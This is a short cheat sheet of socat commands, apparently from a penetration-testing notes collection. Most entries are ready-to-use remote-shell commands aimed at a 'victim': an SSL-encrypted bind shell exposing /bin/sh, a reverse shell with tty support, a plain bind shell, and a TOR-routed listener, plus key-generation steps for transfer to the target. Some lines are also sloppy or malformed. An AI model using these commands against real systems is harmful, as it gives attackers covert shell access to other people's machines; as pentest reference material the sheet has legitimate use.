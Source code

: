 # socat

## socat ssl protected bind-shell
### generate ssl key-pairs localy
``` cheat socat generates all keys for ssl bind-shell
echo -e "\n\n\n\n\n\n\n" | openssl req -newkey rsa:2048 -nodes -keyout server.key -x509 -days 30 -out server.crt && cat server.key server.crt > server.pem && openssl genrsa -out client.key 1024 && echo -e "\n\n\n\n\n\n\n" |openssl req -new -key client.key -x509 -days 3653 -out client.crt && cat client.key client.crt > client.pem && chmod 600 server.* && chmod 600 client.*
```
### transfer server.pem & client.cr to victiom

## spawn socat bind-shell
``` cheat socat create ssl bind-shell
socat OPENSSL-LISTEN:8433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
```

## connect to ssl bind-shell
``` cheat socat connet to ssl bind-shell
socat STDIO OPENSSL-CONNECT:<VICTIM-IP>:8433,cert=client.pem,cafile=server.crt,verify=0
```

## reverse Shell with tty support  run on victim
```cheat socat reverse Shell with tty support run on victim
socat -,raw,echo=0 tcp-listen:4545
socat tcp:127.0.0.1:4545 exec:"bash -i",pty,stderr,setsid,sigint,sane
```

## socat connect to TCP 4444
```cheat socat simple connect
socat -d  READLINE,history=$HOME/.socat_history TCP4:4444,crnl
```

## socat listen on TCP 443
```cheat socat listening
socat -d  READLINE,history=$HOME/.socat_history TCP-LISTEN:443,crnl,fork,reuseaddr,retry
```

## socat connect via SSL to TCP 8443
```cheat socat connect via SSL
socat -d  READLINE,history=$HOME/.socat_history OPENSSL:8443,verify=0,crnl
```

## socat listen via TOR 8443
```cheat socat listen via TOR
socat -d  READLINE,history=$HOME/.socat_history SOCKS4:127.0.0.1:8443,socksport=9050
```

## bind shell - on victim
```cheat socat bind shell - on victim
socat TCP-LISTEN:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
```


tags: #socat #shell #connect #listen 

